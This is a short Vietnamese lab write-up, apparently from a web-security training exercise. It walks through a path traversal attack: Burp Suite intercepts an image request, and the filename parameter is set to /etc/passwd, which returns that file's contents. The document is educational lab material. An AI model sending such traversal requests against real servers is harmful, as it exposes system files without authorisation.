


## 🔐 Câu 2: Path Traversal (Simple) — Đọc /etc/passwd
### 🎯 Mục tiêu
Khai thác lỗ hổng Path Traversal tại tham số filename để đọc nội dung tệp hệ thống /etc/passwd.

  
   
  <em>Hình 1: Giao diện trang web và các điểm có thể bị tấn công Path Traversal</em>

### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Truy cập trang lab, mở Burp Suite để bắt request liên quan hình ảnh (điều chỉnh Filter settings để thấy các request tĩnh).
Giao diện Burp suite

  
   
  <em>Hình 2: Minh họa kết quả</em>

#### 🔸 Bước 2: Xác định tham số dễ tổn thương
- ✅ Tìm request chứa ảnh bất kì: GET /image?filename=6.jpg HTTP/2.
- ✅ Thực hiện: chỉnh sửa tham số filename trong URL để truy xuất tệp hệ thống bằng đường dẫn tuyệt đối.
GET /image?filename=/etc/passwd HTTP/2

  
   
  <em>Hình 9: Kết quả trả về</em>

> **📊 Kết quả:**
- ✅ Xuất hiện phản hồi chứa dòng kiểu root:x:0:0:root:/root:/bin/bash → chứng tỏ đọc được /etc/passwd

### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng Path Traversal để đọc được /etc/passwd.

---

